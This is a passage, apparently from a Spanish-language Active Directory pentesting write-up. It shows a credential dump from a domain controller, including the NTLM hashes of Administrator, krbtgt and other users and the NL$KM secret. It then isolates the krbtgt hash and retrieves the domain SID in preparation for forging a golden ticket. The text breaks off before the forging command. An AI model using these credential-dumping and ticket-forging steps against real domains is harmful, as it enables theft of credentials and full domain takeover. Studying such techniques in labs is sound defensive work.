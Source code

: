 ```
[*] NL$KM 
 0000   C5 03 54 75 59 68 1A 6B  F5 1E 14 E4 12 FA 5F F7   ..TuYh.k......_.
 0010   B1 99 A3 60 9A 96 3D 89  46 F9 ED E4 5C 54 4B 89   ...`..=.F...\TK.
 0020   81 FA 24 DD 83 BD 97 C6  21 04 ED 7D 69 CF 6E 3D   ..$.....!..}i.n=
 0030   65 AA 53 AA 53 7C 50 C9  F8 33 E2 C8 14 14 24 CC   e.S.S|P..3....$.
NL$KM:c503547559681a6bf51e14e412fa5ff7b199a3609a963d8946f9ede45c544b8981fa24dd83bd97c62104ed7d69cf6e3d65aa53aa537c50c9f833e2c8141424cc
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3f6f27ccbcb235da4602454dff0efb47:::
empleado1:1104:aad3b435b51404eeaad3b435b51404ee:1791df33b45987df23e4fe6c57ea6de7:::
empleado2:1105:aad3b435b51404eeaad3b435b51404ee:8a499ecf99c5e069d0458e283a4b6e89:::
corp.local\maurine.bibby:1112:aad3b435b51404eeaad3b435b51404ee:d82921ed22040dd71155e8a03243313c:::
..............................<RESTO_CODIGO>.......................................
```

Vemos que hemos obtenido el `hash` del usuario que queremos:

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3f6f27ccbcb235da4602454dff0efb47:::
```

De todo esto el que nos va a interesar es el `hash NTLM` que seria el siguiente:

```
3f6f27ccbcb235da4602454dff0efb47
```

Ahora vamos a ejecutar el siguiente comando para montarnos nuestro propio `TGT` de la siguiente forma:

Pero claro antes deberemos de obtener el `SID` que es muy sencillito, con el modulo de `AD` en un equipo cualquiera lo podremos obtener, poniendo lo siguiente:

```powershell
Get-ADDomain
```

Info:

```
AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=corp,DC=local
DeletedObjectsContainer            : CN=Deleted Objects,DC=corp,DC=local
DistinguishedName                  : DC=corp,DC=local
DNSRoot                            : corp.local
DomainControllersContainer         : OU=Domain Controllers,DC=corp,DC=local
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-3352250647-938130414-2449934813
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=corp,DC=local
Forest                             : corp.local
InfrastructureMaster               : DC01.corp.local
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {cn={410CF9DA-E128-4646-B131-688DF0C8538D},cn=policies,cn=system,DC=corp,DC=local,
                                      CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=corp,DC=local}
LostAndFoundContainer              : CN=LostAndFound,DC=corp,DC=local
ManagedBy                          :
Name                               : corp
NetBIOSName                        : CORP
ObjectClass                        : domainDNS
ObjectGUID                         : a72d122a-d459-40c5-a96b-8ef515bee704
ParentDomain                       :
PDCEmulator                        : DC01.corp.local
```